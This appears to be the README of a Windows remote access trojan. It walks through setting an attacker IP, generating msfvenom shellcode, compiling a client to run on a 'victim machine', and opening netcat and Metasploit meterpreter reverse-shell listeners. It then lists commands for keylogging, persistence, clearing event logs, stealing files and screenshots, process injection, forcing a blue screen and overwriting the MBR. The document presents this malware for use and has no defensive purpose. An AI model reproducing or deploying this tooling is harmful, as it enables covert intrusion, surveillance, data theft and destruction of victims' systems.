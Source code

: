 # Setup

After cloning the whole project and getting inside of the x64 folder:

1. Open Client.c and replace the contents of the variable ServerIP at line 30 with the IP address of the attacker machine

2. From the terminal, generate the shellcode for ShellcodeX64 using the first commented msfvenom command (Replace the LHOST variable with the IP address of the attacker machine)

3. Now Generate the respective shellcodes for ShellcodeSpawnNetcat and FallBackShell using the last 2 commented msfvenom commands (Replace the LHOST variable just like you did before (2.) )

4. Copy the output from msfvenom for ShellcodeSpawnNetcat and FallBackShell, and paste it inside of ESH.c

5. Compile and execute ESH.c
```bash
gcc ESH.c -o esh && ./esh
```

6. Grab the output of esh, and replace ShellcodeSpawnNetcat and FallBackShell inside of the Client.c file and save.

7. Open Server.c and replace the contents at line 14 with the IP address of the attacker machine and save.

8. You should now be good to go, compile everything by typing:
```bash
x86_64-w64-mingw32-gcc -o Client.exe Client.c -lwsock32 -lwininet -lgdi32 -lntdll && gcc Server.c -o Server -lpthread && echo "Compilation Successful"
```

9. If everything went correctly, the string "Compilation Successful" should popup in your terminal. If not, there was an error when trying to compile. Make sure you did everything correctly.

10. Setting the server: Before executing the Client on the victim machine, you must make sure to open another tab in your terminal (On the attacker machine), and execute the following command:
```bash
nc -lvnp 38524
```

If you don't do this, when executing Client.exe, no reverse shell will be received due to the fact that you weren't listening on port 38524, and Client.exe will crash (The same thing will happen if you decide to send 'startcat' before listening for a connection on port 443)

11. Now you should start the main server by typing:
```bash
./Server start
```

12. Before using 'inject64', open a new terminal tab, load msfconsole, and paste the lines below:
```bash
use exploit/multi/handler
set LHOST SERVER-IP
set LPORT 4444
set payload windows/x64/meterpreter/reverse_tcp
run
```

Everything should now be ready. Start the server, the client, and enjoy :)

# Commands

q : Closes the connection with the client and exits

menu : Prints the menu showing all available commands

startlogger : Starts logging keystrokes and saves them to a file named 'out.txt' on the client machine

stoplogger : Stops logging keystrokes

persistence1 -> persistence5 : Uses hardcoded paths to establish persistence (persistence4 and persistence5 require Administrator privileges)

removepers : Removes all hardcoded persistence methods used on the remote host

isvm : Performs basic checks to determine whether the client is running inside a virtual machine and returns the results

isadmin : Verifies whether the server has administrative privileges

cleanlogs : Removes the Event Viewer logs

updateurl : Updates the URL used to download files on the remote host

download : Downloads a file to the remote host using the URL and a specified filename

getfile : Retrieves a file from the remote host and transfers it to the server

diskspace : Returns the disk space for the C: drive

drives : Enumerates all connected drives

screenshot : Takes a screenshot of the remote host's desktop and transfers it to the server

cleanbin : Cleans the recycle bin (No popup)

hostname : Retrieves the hostname of the remote host

popup : Spawns a visible popup on the remote host (For debug)

bsodwin : Crashes the remote host, causing a BSOD (Blue Screen of Death)

wipembr : Overwrites the MBR on the remote host

inject64 : Spawns a new Notepad process and injects shellcode into it to establish a reverse shell connection to the msfconsole listener

startcat : Injects shellcode to connect to a listener running on the server
